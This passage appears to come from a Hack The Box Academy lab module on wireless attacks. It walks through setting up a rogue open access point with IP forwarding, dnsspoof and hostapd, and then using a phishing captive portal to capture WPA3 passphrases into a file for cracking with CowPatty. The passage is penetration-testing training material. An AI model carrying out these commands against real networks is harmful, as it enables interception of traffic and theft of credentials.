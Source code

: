 <p>Additionally, we need to ensure that IP forwarding is enabled on the machine to allow proper routing of traffic between the fake access point and the internet.</p>
<pre><code class="language-shell-session">[!bash!]$ echo 1 &gt; /proc/sys/net/ipv4/ip_forward
</code></pre>
<p>Next, we start dnsspoof on the <code>wlan2</code> interface to redirect all traffic from the victim's device to our attacker's IP address. This step allows us to intercept and monitor the client's communications.</p>
<pre><code class="language-shell-session">[!bash!]$ dnsspoof -i wlan2

dnsspoof: listening on wlan2 [udp dst port 53 and not src 192.168.0.1]
</code></pre>
<p>Finally, we execute hostapd with the open.conf file to start the rogue open network. This will broadcast the fake access point, enticing disconnected clients to connect. Use the following command:</p>
<pre><code class="language-shell-session">[!bash!]$ hostapd open.conf

rfkill: Cannot open RFKILL control device
wlan2: interface state UNINITIALIZED-&gt;ENABLED
wlan2: AP-ENABLED 
wlan2: STA 62:bd:99:a1:9e:1b IEEE 802.11: authenticated
wlan2: STA 62:bd:99:a1:9e:1b IEEE 802.11: associated (aid 1)
wlan2: AP-STA-CONNECTED 62:bd:99:a1:9e:1b
wlan2: STA 62:bd:99:a1:9e:1b RADIUS: starting accounting session 31FF3C4EF15F915F
</code></pre>
<h3>3. Harvest and Validate Credentials</h3>
<p>Once the client connects to our rogue open access point, they will be presented with a captive portal designed to mimic the legitimate login page. This setup enables us to harvest the client's credentials when they attempt to authenticate. The captive portal intercepts their login attempt, allowing us to capture the password in clear text for further use.</p>
<p><img alt="wpa3" src="https://academy.hackthebox.com/storage/modules/291/captive_wpa3.PNG"/></p>
<p>If a user enters their password a POST request is sent to <code>received.php</code>. The <code>received.php</code> file simply takes the user input and writes it to <code>passes.lst</code>, our dictionary. We will be using this dictionary later in order to validate the captured pre-shared keys against the handshake with CowPatty. When testing this form, if an error message is displayed by received.php, it is commonly a permissions issue, which can be resolved with the following command.</p>
<pre><code class="language-shell-session">[!bash!]$ cat /var/www/html/passes.lst 

&lt;SNIP&gt;
</code></pre>
<div class="my-3 p-3 vpn-switch-card" id="vpn-switch">
<p class="font-size-14 color-white mb-0">VPN Servers</p>
<p class="font-size-13 mb-0">
<i class="fas fa-exclamation-triangle text-warning"></i><span class="color-white ml-1">Warning:</span> Each
                    time you "Switch",
                    your connection keys are regenerated and you must re-download your VPN connection file.
                </p>
<p class="font-size-13 mb-0">
                    All VM instances associated with the old VPN Server will be terminated when switching to
                    a new VPN server. <br/>
                    Existing PwnBox instances will automatically switch to the new VPN server.</p>
<div class="row mb-3">
<div class="col-12 mt-2">
<div class="d-none justify-content-center vpn-loader">
<div class="spinner-border text-success" role="status">
<span class="sr-only">Switching VPN...</span>
</div>
</div>
<select aria-label="vpn server" class="selectpicker custom-form-control vpnSelector badge-select" title="Select VPN Server">